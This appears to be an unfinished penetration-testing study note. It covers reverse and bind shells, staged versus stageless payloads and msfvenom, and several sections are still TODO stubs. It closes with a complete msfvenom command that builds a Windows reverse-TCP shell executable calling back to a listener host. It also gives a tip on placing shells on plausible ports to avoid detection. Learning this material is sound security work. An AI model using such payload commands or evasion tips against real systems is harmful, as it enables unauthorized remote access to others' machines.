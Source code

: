 A **reverse shell** have the advantage of being more resilient against firewalls and NAT. Typically organisations are more permissive with outbound traffic, rather than inbound traffic.

Tip: If the target host is a mail server, try to use ports that legimately make sense to its function (e.g. if port 110, the POP3 port, is unused, bind shell it, to blend in to the feel of a mail server).


## Staged and Stageless Payloads

Payloads can execute in different ways.

A *staged* payload, executes an initial bootstrap piece of code whose job is to fetch, execute and hand over to a larger piece of code. Can generate more traffic making it easier to detect, easier for AV to detect. It dodes allow for smaller payloads.

A *stageless* payload is monolithic, in that everything is self contained. This does come at the cost of size.



# MSFVenom

`msfvenom -l` will list out payloads it can generate.

The `--help-formats` flag will let you see the different format payloads can be morphed into (e.g. vbs, aspx, psh, jar, etc).

Tip: Staged versions of exploits are signified with a `/`, stageless are signified with `_`, for example:

    windows/meterpreter/reverse_tcp
    windows/meterpreter_reverse_tcp



## Executable Formats

TODO:


## Catching Shells

TODO


## Transfer Methods





## Exercise Create Exploit with MSFVenom

Create a reverse TCP shell using msfvenom:

    msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.99 LPORT=4444 -f exe -o malicious.exe
